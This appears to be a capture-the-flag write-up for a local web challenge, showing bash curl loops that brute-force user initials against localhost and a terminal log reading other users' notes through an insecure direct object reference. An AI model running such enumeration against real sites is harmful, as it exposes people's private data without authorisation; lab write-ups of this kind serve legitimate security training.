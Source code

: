 Found 2 directories in testing which are shared. The first was found via the images links on the main page the second was discovered in the json returns from the create user option.

Dirs
* images/<INITIALS>/0
* notes/<INITALS>/0

Manually stepped through the images which were shared already via the main page. They are
* MC
* TW
* BD

No **contiguous** image was revealed.

Looking at their notes for these 3 users, We find the following peices of information:

Two names which do not appear in the above
* Beth - Site Admin
* John - From a band

Also, there are middle initials for unnames users, or those above, starting with U, D and D.

When creating a user, All caps are used and the directory created is First Initial, Middle Initial and Last Initial. So, 3 characters, such as FML. Potentially, leaving middle blank will result in a 1 character.

Thus, we should be able to brute force this space with some bash scripting.

### 3 character brute force
```
for a in {A..Z}; do for b in {A..Z}; do for c in {A..Z}; do echo "$(curl http://localhost:6868/notes/$a$b$c --silent) -- $a$b$c" | tee -a 3combo.txt; done; done; done
 1188  for a in {A..Z}; do for b in {A..Z}; do for c in {A..Z}; do echo "$(curl http://localhost:6868/notes/$a$b$c/0 --silent) -- $a$b$c" | tee -a 3combo.txt; done; done; done
```

### 2 character brute force
```
for a in {A..Z}; do for b in {A..Z}; do echo "$(curl http://localhost:6868/notes/$a$b/0 --silent | base64) -- $a$b" | tee -a 2combo_pics.txt; done; done
```

However, doing this brute forcing, only able to find known users and created users

Tried doing the same with the 2 character for the images images directories, but found the same again too.

Log of the notes:
```
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/BD/0 && echo ""
Had a bagel today, it was pretty ok.
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/BD/1 && echo ""
Beth, the site admin, keeps hassling me about consenting to the site changes so she can improve security. I don't see the point tbh, site seems good as it is.
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/BD/2 && echo ""
ಠ_ಠ
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/BD/3 && echo ""
Invalid Note ID
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/TW0 && echo ""
Page Not Found
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/TW/0 && echo ""
TODO:
* Get back to John of the "John likes music" band about shooting times
* Respond to Miss Yager's to confirm that I am ok with her site changes
* Buy another camera. You can never have too many.
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/TW/1 && echo ""
(╯ ͠° ͟ʖ ͡°)╯┻━┻
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/TW/2 && echo ""
I swear if someone asks me to photograph something for free again I'm going to lose it.
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/TW/3 && echo ""
\Invalid Note ID
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/MC/0 && echo ""
REMINDER!!!

Pick up the replacement lens for the Nikon!
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/MC/1 && echo ""
¯\_( ͡° ͜ʖ ͡°)_/¯
root@kali:/home/kali/msf-dec-2020/6868# curl http://local:6868/notes/MC/2 && echo ""
Weirdest thing happened today. I was in the "Photos5u" main office and there was this woman, I think she was one of the techies, and she was ranting about "Eye Doors" or something to the owner. Apparently, our middle names are a threat to the site?!?!? 

Honestly, with middle names like "Ulysses Denise Donnoly" you'd think she'd be happy about hers being in use. Actually now that I think about it, she's probably embaressed about her intials.   


```

The last one, something about IDOR and the middle names it seems.

